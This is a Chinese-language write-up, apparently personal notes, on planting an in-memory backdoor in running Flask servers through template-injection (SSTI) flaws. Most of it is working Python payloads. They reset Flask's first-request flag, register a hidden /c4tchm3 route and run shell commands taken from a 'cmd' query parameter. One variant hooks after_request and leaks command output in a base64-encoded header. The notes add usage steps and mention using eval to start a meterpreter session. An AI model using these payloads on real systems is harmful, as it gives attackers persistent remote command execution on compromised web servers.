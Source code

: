 # 介绍
	- 内存马是一种通过攻击正在运行的服务器后端，通过添加恶意的路由向其添加新的后门的技术。因为后门
- # 前人的工作
	- 网上流传着这么一个技巧：使用app实例中的`add_url_rule`可以向app中动态添加路由
	- 有人给出了[SSTI的payload](https://github.com/jweny/MemShellDemo/blob/master/MemShellForPython/python%20flask%20%E5%86%85%E5%AD%98%E9%A9%AC.md)完成这个操作，但是存在以下问题
		- payload被写在了ssti的payload中，无法动态地绕过WAF
		- 过于依赖flask内部机制，在最新版flask中已经不能用payload中的方式找到app实例
		- 添加路由的方式已经过时，新版flask提示：
			- ```
			  AssertionError: The setup method 'add_url_rule' can no longer be called on the application. It has already handled its first request, any changes will not be applied consistently.
			  Make sure all imports, decorators, functions, etc. needed to set up the application are done before running it.
			  ```
- # 新思路
	- 翻找flask的代码，发现app实例中有一个endpoint函数，其职责是注册动态路由的函数。其会将路由函数放入`self.view_functions`中，代码如下：
		- ```python
		  def decorator(f: F) -> F:
		      self.view_functions[endpoint] = f
		      return f
		  
		  return decorator
		  ```
	- `self.view_functions`的注释给出了使用例，用于注册新的路由。
		- ```python
		  app.add_url_rule("/ex", endpoint="example")
		  ```
	- 我们可以将新的函数放进`view_functions`中，然后调用`app.add_url_rule`动态添加内存马
	- `app.add_url_rule`这个函数被装饰器`@setupmethod`装饰，我们需要修改`app._got_first_request`为False，让其以为第一个请求还没有到来才能继续添加新的路由
		- ```python
		  app.__dict__.update({'_got_first_request':False})
		  ```
	- 为了动态地绕过SSTI WAF, 我们通过sys模块而不是jinja变量找到app实例：`sys.modules["__main__"].app`
	- 而且为了减少对全局变量的依赖，这里仅仅使用一个全局变量完成所有操作：使用builtins中的`__import__`函数
	- 然后完成上方的两个操作即可，payload如下：
		- ```python
		  [
		      app.view_functions
		      for app in [ __import__('sys').modules["__main__"].app ]
		      for c4tchm3 in [
		          lambda : __import__('os').popen(__import__('__main__').app.jinja_env.globals["request"].args.get("cmd", "id")).read()
		      ]
		      if [
		          app.__dict__.update({'_got_first_request':False}),
		          app.view_functions.__setitem__('c4tchm3', c4tchm3),
		          app.add_url_rule("/c4tchm3", endpoint="c4tchm3")
		      ]
		  ]
		  ```
	- 紧凑版payload
		- ```python
		  [ app.view_functions for app in [ __import__('sys').modules["__main__"].app ] for c4tchm3 in [ lambda : __import__('os').popen(__import__('__main__').app.jinja_env.globals["request"].args.get("cmd", "id")).read() ] if [ app.__dict__.update({'_got_first_request':False}), app.view_functions.__setitem__('c4tchm3', c4tchm3), app.add_url_rule("/c4tchm3", endpoint="c4tchm3") ] ] 
		  ```
	- 使用方式
		- 想办法把payload丢给eval执行即可，对SSTI来说应该很简单
		- 然后访问路由：`/c4tchm3?cmd=whoami`
- # 通过header进行回显
	- ```python
	  [
	      app.view_functions
	      for app in [ __import__('sys').modules["__main__"].app ]
	      for c4tchm3 in [
	          lambda resp: [
	              resp
	              for cmd_result in [__import__('os').popen(__import__('__main__').app.jinja_env.globals["request"].args.get("cmd", "id")).read()]
	              if [
	                  resp.headers.__setitem__("Aaa", __import__("base64").b64encode(cmd_result.encode()).decode()),
	                  print(resp.headers["Aaa"])
	              ]
	          ][0]
	      ]
	      if [
	          app.__dict__.update({'_got_first_request':False}),
	          app.after_request_funcs.setdefault(None, []).append(c4tchm3)
	      ]
	  ]
	  ```
- # 其他思路？
	- 其实如果可以eval的话，也可以直接用eval上线meterpreter的
	- 但是这就要出网了
-
